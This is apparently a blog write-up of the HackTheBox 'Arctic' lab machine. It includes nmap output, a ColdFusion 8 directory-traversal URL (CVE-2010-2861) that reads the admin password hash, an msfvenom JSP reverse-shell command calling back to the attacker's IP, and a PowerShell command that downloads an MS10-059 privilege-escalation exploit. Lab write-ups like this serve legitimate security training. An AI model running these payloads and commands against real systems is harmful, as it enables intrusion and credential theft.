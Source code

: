 ```yaml
---
layout: post
title: "HTB: Arctic Walkthrough"
author: "Emmet Friel"
categories: HackTheBox
image: htb/arctic/arctic.png
---
```


# Introduction

Arctic is an "easy" Windows machine on Hackthebox.


# Reconnaissance & Enumeration

```bash
root@kali:~/Documents/boxes/arctic# nmap -sC -sV -O -oN nmap.nmap 10.10.10.11
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 13:10 BST
Nmap scan report for 10.10.10.11
Host is up (0.027s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.73 seconds
```

The scan shows two MSRPC services and one unknown that nmap couldn’t pick up. Before checking out what it is exactly, I used rpcclient and tried to connect to the two MSRPC services with anonymous credentials:

```bash
rpcclient -U "" -N -p 135 10.10.10.11
rpcclient -U "" -N -p 49154 10.10.10.11
```

Server timed out, no luck. Back to see whats running on port 8500 so navigating to that port on the browser shows the webpage.

| ![image]({{site.github.url}}/assets/img/htb/arctic/index.png) |
| :--: |
| *Webpage running on port 8500* |

Navigating through the directory I came across an Adobe ColdFusion8 admin portal. Note that the webpages take about 20 seconds to load so be patient.

| ![image]({{site.github.url}}/assets/img/htb/arctic/portal.png) |
| :--: |
| *Adobe ColdFusion8 web portal* |

Searching information about Adobe ColdFusion 8, it came out in July 2007 and the latest version is now ColdFusion 2018. ColdFusion uses its own server-side markup language (CFML) and the application itself was wrote in Java but to verify this we can view the HTTP headers using CURL.

| ![image]({{site.github.url}}/assets/img/htb/arctic/httpheaders.png) |
| :--: |
| *Grabbing HTTP headers gives us more information about the server* |

So, ColdFusion is hosted on a JRun Web Server and that runs on JSP, another server-side language. Quick search on ColdFusion8 exploits and the one I used was: Adobe ColdFusion - Directory Traversal which refers to CVE-2010-2861: 
> “Multiple directory traversal vulnerabilities in the administrator console in Adobe ColdFusion 9.0.1 and earlier allow remote attackers to read arbitrary files via the locale parameter to (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2eepackaging/editarchive.cfm, and (5) enter.cfm in CFIDE/administrator/.”

The exploit gives us the ability to read file paths using these parameters! Reading the exploit script it shows a directory that looks like it would show us some password properties: ```http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en```

| ![image]({{site.github.url}}/assets/img/htb/arctic/hash.png) |
| :--: |
| *The directory path returned a hashed password on the webpage* |

The portal shows a hashed password that I could attempt to crack. You can use John the ripper or various websites. I used crackstation.net and it successfully cracked the password which turned out to be **happyday**. Logging into the portal you can see everything about the server from “Settings Summary” under Server Setting tab. The info shows the server is running on Windows Vista and I came across important default file paths.

| ![image]({{site.github.url}}/assets/img/htb/arctic/mappings.png) |
| :--: |
| *Important directory mappings. If we get to upload files to the server we'll use these default file paths* |

On the admin portal there is an option for “Scheduled Tasks” which gives us the ability to execute a task from a remote URL! Lovely. We know the server handles CFML and JSP so we can decide on a web shell (CFML) or a complete shell to the machine (JSP), I went for a complete shell but the CFML webshells are under **/usr/share/webshells/cfm** on Kali. Save the task to a file called shell.jsp using the default file path mappings above so we can execute that file from ```http://10.10.10.11/CFIDE/<file>```

| ![image]({{site.github.url}}/assets/img/htb/arctic/task.png) |
| :--: |
| *Creating a task to download a file from my python webserver* |

Create a new directory to host the reverse shell file using a webserver, create a jsp reverse shell using msfvenom and setup your netcat listener. Go the **http://10.10.10.11:8500/CFIDE/shell.jsp** and then wait for your listener to catch that connection.

```bash
root@kali:~/Documents/boxes/arctic/share# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f raw > shell.jsp
```

| ![image]({{site.github.url}}/assets/img/htb/arctic/shell.png) |
| :--: |
| *Shell access to the victim with user privs* |

# Privilege Escalation

If you run ```systeminfo``` you can see its running on Windows 2008 and there hasn’t been any patches carried out on the machine. Using Windows Exploit Suggester to find an escalation vulnerability: 

```bash
root@kali:~/Documents/boxes/arctic# python windows-exploit-suggester.py --database 2020-04-10-mssb.xls --systeminfo systeminfo.txt --quiet
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

After some trial and error, MS10-059 gave me that root shell :)

```windows
C:\Users\tolis\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.19:8000/MS10-059.exe','C:\Users\tolis\Desktop\exploit.exe')"
```

| ![image]({{site.github.url}}/assets/img/htb/arctic/exploit.png) |
| :--: |
| *Running the exploit* |

![image]({{site.github.url}}/assets/img/htb/arctic/root.png)


Boom, root privelleges.